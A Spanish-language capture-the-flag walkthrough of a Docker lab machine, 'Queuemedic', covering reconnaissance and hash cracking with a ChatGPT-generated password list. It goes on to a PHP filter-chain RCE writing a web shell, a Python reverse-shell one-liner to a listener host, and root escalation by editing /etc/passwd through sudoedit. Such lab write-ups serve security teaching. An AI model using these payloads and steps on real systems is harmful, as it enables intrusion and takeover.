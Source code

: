 # Docerlabs - Queuemedic - Hard

### 1) Iniciamos la maquina.
```bash
sudo ./auto_deploy.sh queuemedic.tar
```

![](ANEXOS/Pasted%20image%2020240925173632.png)

### 2) Nos dirigimos al navegador e ingresamos la dirección http://172.17.0.2.
![](ANEXOS/Pasted%20image%2020240925173823.png)

***Al ingresar a la url se carga un formulario de acceso.***

![](ANEXOS/Pasted%20image%2020240925180151.png)

***Analizando la web con wappalyzer no se encontró ninguna información que nos pueda llamar la atención para investigar.***

### 3) Realizamos un escaneo de puertos con nmap.
```shell
nmap -sV -Pn 172.17.0.2 
```

![](ANEXOS/Pasted%20image%2020240925174021.png)

***Al terminar el proceso se encontró un solo puerto abierto el 80 con un servidor Apache.***

### 4) Realizamos una búsqueda de carpetas y archivos con gobuster.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt --exclude-length 0,275
```

![](ANEXOS/Pasted%20image%2020240925174813.png)

***Al terminar el proceso se encontro con varias carpetas con posibles datos sensibles ellas son /backup y /db.***

### 5) Nos dirigimos a la url de /backup http://172.17.0.2/backup.

![](ANEXOS/Pasted%20image%2020240925175148.png)

***Al ingresar vemos un archivo con extensión .zip lo cual procedemos a descargarlo para su posterior análisis.***

### 6) Nos dirigimos a la url de /db http://172.17.0.2/db.
 
![](ANEXOS/Pasted%20image%2020240925175503.png)

***Al ingresar observamos un archivo con extensión .db lo cual procedemos a descargarlo para su posterior análisis.***

### 7) Analizamos los archivos descargados:
a) Descomprimimos y verificamos el contenido del archivo backup.zip.	
	
![](ANEXOS/Pasted%20image%2020240925175854.png)

***Nos encontramos con un backup completo del sistema Clinic Queuing System, en el cual realizando un análisis de cada archivo se encontró una posible vulnerabilidad en "index.php "en el método que utiliza para llamar a "page".***
	
b) Abrimos el archivo clinic_queuing_db.db con sqlitebrowser.

![](ANEXOS/Pasted%20image%2020240925180826.png)

***Al abrir la base de datos podemos ver las tablas de la db y desplegamos la tabla user_list***

![](ANEXOS/Pasted%20image%2020240925181901.png)

***Al realizar la consulta sobre esta tabla user_list, se puede observar el contenido del mismo con los datos de username y password en la cual esta encriptada.***
	
### 8) Ataque de diccionario a los hashes encontrados.
a) ***Al realizar el ataque por fuerza bruta no se pudo obtener la contraseña de Administrador.***
b) ***Para obtener una lista con posibles contraseña para el usuario "Jessica Castro" utilizamos ChatGpt en el cual nos brinda una lista de 100 posibles contraseñas.***
	
![](ANEXOS/Pasted%20image%2020240925183606.png)
![](ANEXOS/Pasted%20image%2020240925183512.png)

***Al finalizar el ataque por fuerza bruta con john the ripper pudo obtener una contraseña que concuerda con el hash del usuario "jessica" la cual es "j.castro".***

### 9) Volviendo la pagina principal en el login http://172.17.0.2.
![](ANEXOS/Pasted%20image%2020240925184644.png)

***Iniciamos sesión con las credenciales obtenidas.***
![](ANEXOS/Pasted%20image%2020240925184845.png)

***Analizando la pagina web ademas de un xss en el registro de usuarios y pasientes no se encontro.***

### 10) Busueda de Clinic Queuing System (php) en google.
![](ANEXOS/Pasted%20image%2020240925185754.png)

***Al realizar la búsqueda en google no encontramos con el cms pero también arrojo en exploit-db un exploit en el cual se pude obtener RCE.***

### 11) Descarga https://www.exploit-db.com/exploits/52008 y análisis del exploit.

### 12) Al descargar y ejecutar el exploit vemos que no realiza la explotación del servicio.
![](ANEXOS/Pasted%20image%2020241011082236.png)

### 13) Analizando en detalle el código del sitio y el exploit encontré que había unas validaciones que hace la pagina por lo cual el exploit no puede realizar correctamente su cometido. 

### 14) Fijándome mas en detalle tengo acceso a un usuario que es administrador y en el exploit crea un usuario administrador entonces lo que se me ocurrió a analizar en que parámetros inyecta para obtener un RCE.
![](ANEXOS/Pasted%20image%2020241011083138.png)

### 15) Como se observa en la imagen el exploit inyecta en el parámetro `?page=` un `filter_chain` y después en el parámetro `&0=`, crea el archivo `rce.php` y escribe el contendido ``<?=`$_GET[0]`?>`` parseado en base64.

### 16) Entonces lo que tuve que hacer es unir todo el contenido de la variable `filter_chain` mas el parámetro 0 y ejecutarlo directamente en el navegador.
![](ANEXOS/Pasted%20image%2020241011085843.png)

***El `filter_chain` es mas extenso pero así quedaría para inyectarlo directamente al navegador.***

![](ANEXOS/Pasted%20image%2020241011090029.png)

***Ya tengo ejecución de comandos***

### 17) Ahora creo una reverse shell utilizando python3.

 ```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
 ```
 
 y en mi consola obtengo la conexión.
 
![](ANEXOS/Pasted%20image%2020241011090521.png)
	 
### 18) Luego del tratamiento de la tty, listo el contenido del escritorio donde estoy ubicado y también listo la carpeta /home, en el cual encontré una carpeta jessica del que creo que es un usuario de sistema entonces realizo un cat al archivo /etc/passwd y encuentro al usuario.
![](ANEXOS/Pasted%20image%2020241011092359.png)

### 19) Como tengo un usuario llamado con el mismo nombre que el usuario de la web y como ya tengo una contraseña lo que hago es poner la misma contraseña y ahi ingreso al usuario jessica del sistema.
![](ANEXOS/Pasted%20image%2020241011092814.png)

### 20) Ahora con `sudo -l` listo los privilegios que tiene el usuario jessica, en este caso tiene los privilegios root para utilizar suodedit en la varpeta /var/www/html/.
![](ANEXOS/Pasted%20image%2020241011102543.png)

### 21) Para elevar privilegios a root primeramente tengo que setear el editor global a nano ya que vim no esta instalado y al editarlo también pongo la opción que se me abra para editar el archivo /etc/passwd.
![](ANEXOS/Pasted%20image%2020241011103016.png)

### 22) Ahora que ya tengo todo seteado abro el editor en la ubicación que vimos al listar son sudo -l, entonces ejecuto sudoedit /var/www/html/, Se me abrirá automáticamente el archivo /etc/passwd.
![](ANEXOS/Pasted%20image%2020241011103622.png)

### 23) Ahora que obtuve acceso para editar el archivo /etc/passwd como root lo que queda es eliminar la letra x que esta en el usuario root y esto significa que le quito la contraseña que tenia asignada anteriormente.
![](ANEXOS/Pasted%20image%2020241011103944.png)

### 24) Guardo los cambios y salgo y luego escribo su y presiono enter y ya obtengo acceso a root.
![](ANEXOS/Pasted%20image%2020241011104942.png)
